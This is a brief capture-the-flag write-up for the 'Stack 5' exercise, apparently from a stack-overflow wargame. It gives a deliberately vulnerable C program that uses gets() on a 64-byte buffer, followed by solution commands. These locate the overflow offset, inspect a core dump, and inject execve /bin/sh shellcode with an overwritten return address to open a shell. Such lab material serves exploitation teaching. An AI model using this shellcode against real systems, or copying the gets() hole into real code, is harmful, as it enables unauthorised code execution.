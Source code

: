 
# Stack 5

### Task
```
  #include <stdlib.h>
  #include <unistd.h>
  #include <stdio.h>
  #include <string.h>

  int main(int argc, char **argv)
  {
    char buffer[64];

    gets(buffer);
  }
```

### Solution
```
  ulimit -c unlimited
  python -c "print('A' * 76 + 'BBBB')" | ./stack5
  ls /tmp
  gdb ./stack5 /tmp/core.11.stack5.1538 -q
    x/24x $esp-96
  (python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (76 - 24) + '\xbf\xff\xfc\xa0'[::-1])"; cat) | ./stack5
```
![stack 5(1)](./img/5(1).png)
![stack 5(2)](./img/5(2).png)
![stack 5(3)](./img/5(3).png)
